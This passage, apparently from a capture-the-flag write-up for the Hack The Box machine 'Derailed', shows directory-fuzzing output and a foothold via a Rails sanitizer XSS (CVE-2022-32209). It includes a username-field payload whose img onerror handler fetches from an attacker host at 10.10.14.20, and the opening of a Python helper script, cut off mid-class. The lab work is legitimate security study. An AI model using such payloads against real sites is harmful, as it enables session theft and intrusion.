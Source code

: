 ```
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 80
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

                        [Status: 200, Size: 4774, Words: 671, Lines: 129, Duration: 150ms]
login                   [Status: 200, Size: 5592, Words: 922, Lines: 145, Duration: 184ms]
register                [Status: 200, Size: 5908, Words: 968, Lines: 154, Duration: 264ms]
logout                  [Status: 200, Size: 4774, Words: 671, Lines: 129, Duration: 411ms]
404                     [Status: 200, Size: 1722, Words: 310, Lines: 68, Duration: 397ms]
administration          [Status: 200, Size: 5592, Words: 922, Lines: 145, Duration: 376ms]
500                     [Status: 200, Size: 1635, Words: 289, Lines: 67, Duration: 345ms]
422                     [Status: 200, Size: 1705, Words: 305, Lines: 68, Duration: 325ms]
                        [Status: 200, Size: 4774, Words: 671, Lines: 129, Duration: 404ms]
```

There aren't any subdomains.

# Foothold
After searching for "ruby on rails xss cve 2022" (2022 because it's when the machine was released, I was getting some results about 2023), I found [this post](https://discuss.rubyonrails.org/t/cve-2022-32209-possible-xss-vulnerability-in-rails-sanitizer/80800) on RubyOnRails forum, from there we can go back to the [HackerOne post](https://hackerone.com/reports/1599573). 
The original payload wouldn't work but when testing with a really long payload I noticed that some tags of it got in the actual DOM, from there I put a `cyclic` string and saw that after **48** characters the string would go on the `created: ` field.
I tried with the simple the "normal" payload in the same HackerOne page, for instance:
```html
<select><style><script>alert(1)</script></style></select>
```
At this point I saw that it was kinda working (`script` tag was getting "loaded" in the DOM but not executed), by trying things and simplifying what we already got we can get the following conclusion:
We have an XSS vulnerability in the `username` field, more specifically we can "overflow" into the `created: ` section (which is printed above a created note) and, from there, execute whatever HTML code.
For example:
```html
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaa<select></select><style></style><img src=http://10.10.14.20:9090/idontexist.png onerror='(function () { fetch("http://10.10.14.20:9090/anonfunc") } )();'>
```

I wrote a Python script to facilitate the creation of usernames (there was a character limit on the frontend):
```python
import requests

URL = "http://derailed.htb:3000"
register = "/register"
login = "/login"
logout = "/logout"
create = "/create"
report_get = "/report/{}"
report_post = "/report"
clipnote = "/clipnotes/{}"
clipnote_raw = "/clipnotes/raw/{}"

class Derailed:
    def __init__(self):
        self.session = requests.Session()
        self.logged_in = False

```